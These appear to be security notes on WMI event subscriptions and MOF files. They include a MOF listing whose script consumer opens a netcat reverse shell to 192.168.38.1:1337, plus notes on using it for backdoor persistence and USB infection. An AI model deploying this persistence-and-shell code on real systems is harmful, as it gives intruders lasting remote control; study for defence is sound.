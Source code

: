 # WMI

- Implementation of Web-Based Enterprise Management (WBEM)
- WBEM standard encompasses the design of an
  - extensible enterprise data-collection and data-management facility
  - that has the flexibility and extensibility
  - required to manage local and remote systems that comprise arbitrary components  
- WMI consists of four main components:
  - management applications
  - WMI infrastructure
  - providers
  - managed objects (system, disks, processes, network components...)
- Allows
  -  Execute some code when the notification of an event

![](.assets/WMI architecture.png)
> - http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html
> - CIM - Common Information Model

- WMI repository - stores CIM classes' definitions
- CIM classes
  - hierarchically organized with subclasses
  - grouped in namespaces (logical group of classes)
  - root\cimv2 includes most of the classes that represent computer's resources

- Interesting CIM classes
  - [__EventFilter](http://msdn.microsoft.com/en-us/library/aa394639%28v=vs.85%29.aspx) [[create](http://msdn.microsoft.com/en-us/library/aa389741%28VS.85%29.aspx)]: permits to define a Windows event
  - [__EventConsumer](http://msdn.microsoft.com/en-us/library/aa384749%28VS.85%29.aspx): (abstract consumer class)
    - [ActiveScriptEventConsumer](http://msdn.microsoft.com/en-us/library/aa394635): possible to embed VBScript or JSScript in the consumer (only available in `root\subscription`)
      - Consumer runs with SYSTEM privilege on `Windows XP` and `Windows 2003 Server`
      - `Vista`, it is running under the LOCAL_SERVICE user
  - [__FilterToConsumerBinding](http://msdn.microsoft.com/en-us/library/aa394647%28v=VS.85%29.aspx): link two other instances. (permits to activate the consumer - and to execute its code - whenever the defined event occurs)

- [MOF (Managed Object Format)](http://msdn.microsoft.com/en-us/library/aa823192%28VS.85%29.aspx)
  - Language used to describe CIM classes
  - MOF file needs to be registered into the CIM/WMI repository in order to be taken into account by WMI
    - CIM class(es) MOF describes are added into the repository
  - Compilation
    - Compiled using `mofcomp.exe`
  - Auto compile & register
    - Writable to `Administrator` only
    - Files added to  `%SystemRoot%\System32\wbem\mof\` get auto compiled and registered (before Vista)
    - Logs are in `%SystemRoot%\System32\wbem\mof\Logs\mofcomp.log`

Wait for a windows event and trigger:
```
#pragma namespace ("\\\\.\\root\\subscription")

instance of __EventFilter as $FILTER
{
    Name = "CLASS_FIRST_TEST";
    EventNamespace = "root\\cimv2";
 Query = "SELECT * FROM __InstanceCreationEvent "
  "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND "
  "TargetInstance.LogFile=\"Application\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    Name = "CLASS_FIRST_TEST";
    ScriptingEngine = "VBScript";

    ScriptText =
      "Set objShell = CreateObject(\"WScript.Shell\")\n"
   "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n";
};

instance of __FilterToConsumerBinding
{
    Consumer = $CONSUMER ;
    Filter = $FILTER ;
};
```
> - Ref: [http://www.hsc-news.com/archives/2011/000078.html](http://www.hsc-news.com/archives/2011/000078.html)

Self start:
```
#pragma namespace ("\\\\.\\root\\subscription")

class WoootClass
{
 [key]
 string Name;
};

instance of __EventFilter as $FILTER
{
    Name = "XPLOIT_TEST_SYSTEM";
    EventNamespace = "root\\subscription";
 Query = "SELECT * FROM __InstanceCreationEvent "
         "WHERE TargetInstance.__class = \"WoootClass\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    // ...     
};

instance of __FilterToConsumerBinding
{
    // ...
};

instance of WoootClass
{
 Name = "Woot";
};

```

- Usages
  - Automatically kill some processes as soon as they are launched (anti-rootkits...),
  - Automatically detect when the backdoor/rootkit has been deleted to load it again (dropper),
  - Automatically infect USB devices

## List all the systems within the current environment/directory

```
SELECT ds_cn FROM ds_computer
```

## Tools

- WMI Object Browser:

## References

- [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)
- [Exposing System Secrets with VBA and WMI API](https://sites.google.com/site/beyondexcel/project-updates/exposingsystemsecretswithvbaandwmiapi)
- [How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)
